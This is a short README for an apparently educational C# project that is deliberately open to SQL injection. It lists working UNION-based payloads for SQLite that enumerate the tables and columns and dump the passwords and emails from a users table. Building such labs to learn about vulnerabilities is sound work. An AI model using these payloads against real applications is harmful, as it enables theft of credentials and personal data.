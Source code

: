 # Why
Because I wanted to learn C# and be aware of the common vulnerabilities.

# This
This project is an example of how vulnerable an app can be to SQL injection. Even tho there are a lot of ways to prevent it, keep in mind that Code injection is a thing that is still "common".

Here are the commands you can run to exploit the vulnerable code. There are some other ways to SQLI :)

## List the tables
`1 UNION SELECT name, NULL FROM sqlite_master WHERE type='table'--`

## List the columns
`1 UNION SELECT name, NULL FROM pragma_table_info('users')--`

## Dump the data
`1 UNION SELECT password, email from users--`

# I'm not a C# expert nor a software engineer.
Feel free ton contact me if you have any tips on my "patched" code :)